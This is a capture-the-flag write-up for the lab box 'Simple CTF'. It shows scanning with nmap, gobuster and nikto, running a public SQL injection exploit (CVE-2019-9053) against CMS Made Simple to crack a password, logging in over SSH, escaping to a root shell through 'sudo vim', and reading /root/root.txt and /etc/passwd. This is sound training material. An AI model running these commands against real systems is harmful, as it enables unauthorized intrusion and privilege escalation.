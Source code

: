 # Simple CTF


## Recognition

```bash
nmap -sV -A 10.10.52.109
```

From there, we discover several things.

!['nmap'](./img/nmap.png)

We can see that there is an SSH port open and an apache server running on port 80.

So we can scan the server with `gobuster` or `nikto`.

```bash
gobuster dir -u http://10.10.52.109 -w /usr/share/wordlists/dirb/common.txt -t 10
nikto -h 10.10.52.109
```

We end up discovering several pages/folders available

![url-fuzzing.png](./img/url-fuzzing.png)

The only one we are really interested in is `/simple` or at least it is the only one that allows us to attack. Indeed, the CMS Made Simple software is running at this location and by doing some research, we realize that an SQL Injection is possible (CVE-2019-9053).


## Exploit

You can find an exploit on the internet [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)<br>

We run it and we find what we need as information to test the connection via ssh.

```python
python exploit.py -u http://10.10.52.109/simple --crack -w /usr/share/wordlists/dirb/common.txt
```

![CMS-exploit.png](./img/CMS-exploit.png)

```bash
ssh mitch@10.10.52.109 -p 2222
```

We can ask who we are with `whoami` (spoiler: mitch)
and ask about the `uname -a` machine

We especially want to know what mitch can do

```bash
sudo -l
```

![rights](./img/rights.png)

So we run vim in sudo
```bash
sudo vim
```

once inside
```bash
:!bash
```

We are finally root on the machine!

We can recover the requested information:

```bash
cat /root/root.txt
cat /etc/passwd | grep home
cat user.txt
```

THE END.